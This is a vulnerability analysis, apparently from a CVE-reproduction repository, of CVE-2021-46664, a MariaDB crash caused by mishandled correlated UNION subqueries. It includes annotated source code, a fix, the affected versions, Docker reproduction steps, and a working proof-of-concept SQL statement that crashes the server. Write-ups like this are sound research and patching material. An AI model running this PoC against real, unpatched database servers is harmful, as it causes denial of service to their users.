



# CVE-2021-46664 CWE-None MariaDB DoS via Segmentation Fault

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.
- **Correlated Subquery**: The execution of subqueries depends on external queries. For each external query processing a row of data, the subquery needs to **re-execute**. Therefore, its execution context (such as memory and buffers) must remain valid throughout the entire lifecycle of external queries. **Uncorrelated Subquery**: Subqueries can be executed independently of external queries. It **only needs to be executed once**, and its result can be cached for multiple external queries. Once executed, its resources can be immediately released to save memory. When a subquery contains `UNION`, if any branch of `UNION` is a related subquery, then the entire `UNION` depends on the current row of the outer query. Therefore, the entire `UNION` structure must be treated as a whole, related subquery, meaning that each external query iteration requires recalculation.

## Vulnerability Mechanism
When MariaDB processes subqueries containing UNION, if only some subqueries are classified as related and all members are not synchronously marked as related, the internal resources required for execution are released prematurely, causing the entire UNION to repeatedly call all members each time an outer query is executed. When MariaDB internally re-executes subqueries, accessing freed resources causes crashes.

## Vulnerability Location
Analysis of MariaDB 10.6.3:

In the sql\sql_lex.cc file, line **4863** `st_select_lex::optimize_unflattened_subqueries` function is used to optimize and handle SQL parsing tree nodes containing subqueries (especially UNION subqueries). The core task is to determine attributes such as the "relevance" of each subquery and whether the result set is empty, and to decide subsequent execution and resource release strategies accordingly.

In line **4942**, **if there are members in UNION that are related, then the entire UNION statement is relevant. **

At line 4970, **if the entire UNION is irrelevant, remove the "relevant" flag and allow its results to be cached**. **Vulnerabilities. **If the `is_correlated_unit` is `true`, in fact, no special treatment has been made for any members within UNION. As long as one member is involved, theoretically the entire UNION should be prepared for multiple executions (i.e., each member's `uncacheable` flag should be set), but **all UNION members are not synchronized here**.

The correct logic is that whenever there are related subqueries within UNION, all members should synchronously mark them as related; otherwise, some members may mistakenly release resources, causing the database to crash.

However, when UNION subqueries have related or unrelated subqueries, unrelated members do not expect multiple executions, causing resources to be released early and crashing during secondary execution. This causes relevant members to be ready, while non-related members think it will only execute once. After execution, internal resources are released, and external calls will use the already released data structures, leading to crashes.

```c
// sql_lex.cc file, line 4863
bool st_select_lex::optimize_unflattened_subqueries(bool const_only)
{
  SELECT_LEX_UNIT *next_unit= NULL;
    // Traverses all subquery units
    // Traverse all internal subquery cells, each unit (un) may be a separate subquery or a UNION
  for (SELECT_LEX_UNIT *un= first_inner_unit();un;un= next_unit ? next_unit : un->next_unit())
  {
    Item_subselect *subquery_predicate= un->item;
    next_unit= NULL;

    if (subquery_predicate)
    {
        // ... 
      
        // For each UNION subquery, iterate over all SELECT statements
      for (SELECT_LEX *sl= un->first_select(); sl; sl= sl->next_select())
      {
        JOIN *inner_join= sl->join;
       // Each sl is optimized by JOIN to determine relevance, whether it is null, and updates the interpretation information
          
          // ...
          
 // Line 4942 ***************************************
          // As long as one member is related, the entire unit is related
        is_correlated_unit|= sl->is_correlated;
        
          // ...
          
          // Check whether the UNION result is empty
        if (empty_union_result)
        {
          // As long as one member results are not empty, UNION results are also not empty
          empty_union_result= inner_join->empty_result();
        }
        if (res)
          return TRUE;
      }
        // Optimized attribute settings after completion
      if (empty_union_result)
        subquery_predicate->no_rows_in_result();
        
// Line 4970 ******************* Vulnerability Point **************
        // If the entire UNION is unrelated, the "relevant" flag is removed, without considering the relevance of internal subqueries
      if (!is_correlated_unit)
        un->uncacheable&= ~UNCACHEABLE_DEPENDENT;
      subquery_predicate->is_correlated= is_correlated_unit;
    }
  }
  return FALSE;
}
```

## Remediation
As long as UNION has a member-related (related subquery), all members `uncacheable |= UNCACHEABLE_DEPENDENT`, meaning all members are treated as related subqueries, ensuring every member is prepared for multiple executions, and **resources will not be released in advance**.

```c
if (is_correlated_unit) { 
    // If UNION is related, then there are related subqueries in UNION
    // All UNION members need to be marked as relevant to prevent premature release of resources
    for (SELECT_LEX *sl= un->first_select(); sl; sl= sl->next_select())
        sl->uncacheable |= UNCACHEABLE_DEPENDENT;
} else {
    // All members are unrelated, according to the original logic
    un->uncacheable &= ~UNCACHEABLE_DEPENDENT;
}
subquery_predicate->is_correlated = is_correlated_unit;
```

## Affected Versions
**Affected version:** MariaDB:

- 10.2.0 to 10.2.42
- 10.3.0 to 10.3.33
- 10.4.0 to 10.4.23
- 10.5.0 to 10.5.14
- 10.6.0 to 10.6.6
- 10.7.0 to 10.7.2

## Environment Setup
Start the Docker environment, MariaDB version is 10.6.3, administrator user is root, password is 12345, database test_db exists, open port 3306, and PoC file CVE-2021-46664-PoC.sql already exists in the container.

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db, password 12345

```sql
mariadb -u root -p test_db
```

3. Run the PoC file CVE-2021-46664-PoC.sql, and you will see that an error has been encountered and the container will automatically close

```sql
source CVE-2021-46664-PoC.sql
```



4. Looking at the MariaDB crash log, you can see `[ERROR] mysqld got signal 11 ;` indicating that a Segmentation Fault (segment error) caused DoS. The problem appears in the `sub_select_postjoin_aggr` function and corresponds to the vulnerability principle.

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis

```sql
-- Create a test table
CREATE TABLE t1 ( a int NOT NULL PRIMARY KEY);
INSERT INTO t1 VALUES (0),(4),(31);
CREATE TABLE t2 (i int) ;

-- SQL that triggers vulnerabilities
DELETE FROM t1 WHERE t1.a =
    (SELECT t1.a FROM t2 
     UNION 
     SELECT DISTINCT 52 FROM t2 r WHERE t1.a = t1.a);
```

Subqueries in SQL statements that trigger vulnerabilities can be split into two parts (connected using UNION):

- **Subquery 1:** `SELECT t1.a FROM t2`
  - There is no data in `t2` here, but because the SELECT field uses an outer `t1.a`, this query is a **correlated subquery**. Each time a row in the outer t1 is used, the subquery uses the corresponding t1.a.
- **Subquery 2:** `SELECT DISTINCT 52 FROM t2 r WHERE t1.a = t1.a`
  - `t2` still no data, `t1.a = t1.a` always holds (in fact, it always holds true), but this also uses outer variables (`t1.a`). Theoretically, it's still a related subquery, but sometimes the optimizer can determine that this WHERE condition is actually unrelated to the outer t1.a, and thus optimize it to **non-correlated subquery** （uncorrelated）。

The optimizer considers **subquery 1 to be related** and **subquery 2 unrelated** (since its result has no actual relation to the external t1.a, only constant 52), so it only marks subquery 1 as relevant.

Each line of DELETE requires re-executing the entire UNION. On the first execution, both subqueries run normally. After execution, **Subquery 2** (considered irrelevant) will release its internal resources (such as join buffer, temporary tables, etc.). When the outer t1 enters the next data record, MariaDB attempts to execute the entire UNION again. At this point, call subquery 2 again; internal resources have been released, **crashing or assertion failure during access**.

## References
[NVD - CVE-2021-46664](https://nvd.nist.gov/vuln/detail/CVE-2021-46664)

[[MDEV-25761\] Assertion `aggr != __null' failed in sub_select_postjoin_aggr - Jira](https://jira.mariadb.org/browse/MDEV-25761)

[[MDEV-25636\] Bug report: abortion in sql/sql_parse.cc:6294 - Jira](https://jira.mariadb.org/browse/MDEV-25636)

[MDEV-25636: Bug report: abortion in sql/sql_parse.cc:6294 · MariaDB/server@3a52569](https://github.com/MariaDB/server/commit/3a52569499e2f0c4d1f25db1e81617a9d9755400#diff-bf29ef9ce97f1fb00018bea75fe01ad4d858d055893bff48c773f040773b8c09)
